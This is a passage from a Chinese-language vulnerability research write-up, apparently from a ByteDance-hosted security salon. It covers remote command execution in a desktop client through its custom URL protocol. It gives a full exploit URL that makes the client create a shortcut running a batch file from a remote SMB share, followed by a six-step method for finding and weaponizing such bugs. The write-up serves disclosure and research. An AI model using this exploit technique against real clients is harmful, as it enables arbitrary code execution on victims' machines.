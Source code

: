 使用远程Jar包的方式来达到任意命令执行还是有局限性，如果目标机器不存在Java环境就无法执行，因此在对文件信任机制的研究发现在smb共享文件中打开zip压缩包内的bat文件，不会有任何弹窗提示直接执行bat文件内容。  
  
因此我们可以在共享文件夹中创建1.zip，放入内容为calc的1.bat文件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgWL1pcUiaAicwnSBj5Mkcjjb9kzPh616q2VP82JHQH8f9Rv9ebuKGYWicg/640?wx_fmt=png&from=appmsg "")  
  
将url  
参数值设为\\172.16.176.225\share\1.zip\1.bat  
，然后访问xxplayer://action.cmd/createshortcut_url?url=\\172.16.176.225\share\1.zip\1.bat&name=123  
创建桌面快捷方式，打开快捷方式即可执行bat  
文件，最终达到不需要任何依赖的情况下执行任意命令。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgAhX5hNdZzONLDPI3a0em5ianLzvr4Ha3enODZM9ct2PGPWIaMUsIquw/640?wx_fmt=png&from=appmsg "")  
## 总结  
  
简单总结一下以上两类客户端的攻击入口、RCE风险和影响面。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgG5QpNHV7mPYvxRlevUTaQ7j00GSymRZhukdbUTYQf6KlkK6QYTsWwg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgdUF5A41AbEyIxeom7U8T9lPqqpyzKEJyoStC3DhwtX9vyhDskzswzQ/640?wx_fmt=png&from=appmsg "")  
  
关于客户端本地开启的网络协议问题，我总结出如下几步可以快速的进行漏洞发现:  
1. 找到客户端启动的本地网络服务（TCP、UDP），这个可以用火绒剑或者CMD的方式查看；  
  
1. 有本地监听的情况下，找到对应的程序以及加载的DLL，通过IDA根据端口号找到监听的点，如果是C/C++的程序一般找bind这个函数就能快速定位到；  
  
1. 向上回溯找调用链，并根据网络服务的返回结果，例如HTTP访问会有一段字符串或者响应头的一些字符串，定位到代码处理逻辑；  
  
1. 如果逻辑对应上了，那就接着找程序的导入表是否存在敏感的函数，例如：CreateProcess、WinExec、ShellExec，如果存在则可以向上回溯看看是否与网络服务监听点有联系；  
  
1. 当条件都满足的时候就想尽办法，通过断点调试等操作，找传参或数据传输格式，看看可控内容是否可达敏感的函数处；  
  
1. 根据代码逻辑构造PoC触发漏洞，并尝试武器化利用。  
  
## 致谢  
  
在文章的最后，我要感谢公司部门领导和同事对本议题的贡献和帮助（以下排名不分先后），感谢字节跳动安全中心对于本次沙龙的筹办和策划。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgeRlZW3nhKZdLmHuOzzQ8tgFnwlVFZ5XyqMr9cCRCcB9p2aibWUMB14A/640?wx_fmt=png&from=appmsg "")  
  
  
